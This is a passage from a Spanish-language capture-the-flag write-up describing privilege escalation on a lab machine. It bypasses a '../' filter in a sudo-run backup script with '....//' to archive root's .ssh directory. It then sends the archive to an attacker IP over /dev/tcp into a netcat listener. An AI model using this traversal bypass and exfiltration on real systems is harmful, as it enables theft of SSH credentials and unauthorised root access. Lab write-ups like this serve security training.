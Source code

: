 Modificaremos el directorio a archivar para intentar eludir esta validación y realizar Path Traversal

~~~ bash
martin@code:/tmp$ cat task.json | grep directories -A 1
	"directories_to_archive": [
		"/home/....//root/.ssh"

# Al aplicar la validación, no se logran eliminar todos los caracteres
martin@code:/tmp$ jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' task.json | grep directories -A 1
  "directories_to_archive": [
    "/home/../root/.ssh"
~~~

### Exploiting

Modificaremos el archivo `.json` para que luzca de la siguiente manera. Intentaremos archivar el directorio `.ssh` del usuario `root`

~~~ bash
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/../root/.ssh"
  ],
  "exclude": []
}
~~~

Al ejecutar el script con el archivo `.json` modificado, vemos que se genera un nuevo archivo `.tar.bz2`

~~~ bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json 
2025/08/02 20:23:23 🍀 backy 1.2
2025/08/02 20:23:23 📋 Working with test.json ...
2025/08/02 20:23:23 💤 Nothing to sync
2025/08/02 20:23:23 📤 Archiving: [/home/../root/.ssh]
2025/08/02 20:23:23 📥 To: /home/martin/backups ...
2025/08/02 20:23:23 📦
~~~

Iniciaremos un listener en nuestra máquina para recibir el archivo `.tar.bz2`

~~~ bash
nc -lvnp 4444 > ssh-root.tar.bz2
~~~

Enviaremos este archivo generado a nuestra máquina atacante a través de un socket TCP

~~~ bash
martin@code:~/backups$ cat code_home_.._root_.ssh_2025_August.tar.bz2 > /dev/tcp/10.10.14.188/4444
~~~
